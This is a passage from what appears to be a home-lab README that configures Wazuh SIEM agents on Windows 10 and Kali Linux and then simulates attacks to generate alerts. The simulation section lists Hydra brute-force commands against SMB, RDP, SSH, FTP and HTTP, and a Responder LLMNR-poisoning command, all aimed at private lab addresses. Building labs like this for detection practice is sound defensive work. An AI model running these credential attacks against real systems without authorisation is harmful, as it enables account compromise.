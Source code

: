For script details, see [wazuh_setup.sh](../scripts/wazuh_setup.sh).

## 6. Wazuh Agent Configuration
Wazuh agents were installed on the Windows 10 (192.168.254.150) and Kali Linux (192.168.254.140) targets to send logs to the Wazuh manager.

### Windows 10 Agent
1. **Install Agent**:
   - Download and install the Wazuh agent MSI package.
2. **Configure Agent**:
   - Copy [ossec_windows.conf](../configs/wazuh/ossec_windows.conf) to `C:\Program Files (x86)\ossec-agent\ossec.conf`.
   - Monitors Windows Security Event Logs.
3. **Restart Agent**:
   ```bash
   net stop wazuh
   net start wazuh
   ```

### Kali Linux Agent
1. **Install Agent**:
   - Install the Wazuh agent via `apt`.
2. **Configure Agent**:
   - Copy [ossec_kali.conf](../configs/wazuh/ossec_kali.conf) to `/var/ossec/etc/ossec.conf`.
   - Monitors `/var/log/auth.log` and `/var/log/vsftpd.log`.
3. **Restart Agent**:
   ```bash
   sudo systemctl restart wazuh-agent
   ```

## 7. Attack Simulation
Brute-force attacks were simulated from the Kali Linux attacker machine (192.168.254.130) using Hydra and Responder.

### Steps
1. **Run the Attack Script**:
   ```bash
   sudo ../scripts/attack_simulation.sh
   ```
   - **Windows 10 (192.168.254.150)**:
     - SMB: `hydra -l Administrator -P /usr/share/wordlists/rockyou.txt smb://192.168.254.150`
     - RDP: `hydra -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://192.168.254.150`
     - SSH: `hydra -l Administrator -P /usr/share/wordlists/rockyou.txt ssh://192.168.254.150`
     - LLMNR: `responder -I eth0 -wrf`
   - **Kali Linux (192.168.254.140)**:
     - SSH: `hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://192.168.254.140`
     - FTP: `hydra -l kali -P /usr/share/wordlists/rockyou.txt ftp://192.168.254.140`
     - HTTP: `hydra -l kali -P /usr/share/wordlists/rockyou.txt http-get://192.168.254.140`

2. **Verify Attacks**:
   - Check `/var/log/attack_simulation.log` for attack outputs.
